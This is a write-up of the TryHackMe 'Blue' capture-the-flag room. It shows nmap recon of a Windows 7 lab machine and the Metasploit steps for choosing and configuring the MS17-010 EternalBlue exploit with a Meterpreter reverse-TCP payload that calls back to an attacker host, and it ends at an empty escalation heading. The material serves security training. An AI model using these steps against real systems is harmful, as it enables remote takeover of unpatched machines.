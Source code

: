 # TryHackMe [Blue](https://www.tryhackme.com/room/blue)
### References
* Hammond, J. (2020). TryHackMe! EternalBlue/MS17-010 in Metasploit [YouTube Video]. In YouTube. https://youtu.be/s6rwS7UuMt8
* Microsoft. (2017, October 11). Microsoft Security Bulletin MS17-010 - Critical. Microsoft.com. https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010
## Recon
### How many ports are open with a port number under 1000?
```bash
$ nmap -sV -sC 10.10.45.109
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-11 08:23 AEST
Nmap scan report for 10.10.45.109
Host is up (0.28s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2021-05-10T22:25:26+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2021-05-09T22:21:54
|_Not valid after:  2021-11-08T22:21:54
|_ssl-date: 2021-05-10T22:25:33+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h14m10s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:22:ad:0b:95:87 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-10T17:25:26-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-10T22:25:26
|_  start_date: 2021-05-10T22:21:53
```
**Answer**: `3`
### What is this machine vulnerable to (answer in the form of: ms??-???)?
* According to [Microsoft](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010), the EternalBlue vulnerability has been given the codename `ms17-010`.

**Answer**: `ms17-010`
## Gain Access
### What is the full path of the exploitation code we will run against the machine?
```
msf6 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
**Answer**: `exploit/windows/smb/ms17_010_eternalblue`
### Show options and set the one required value. What is the name of this value?
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.14     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

**Answer**: `RHOSTS`
## Escalate
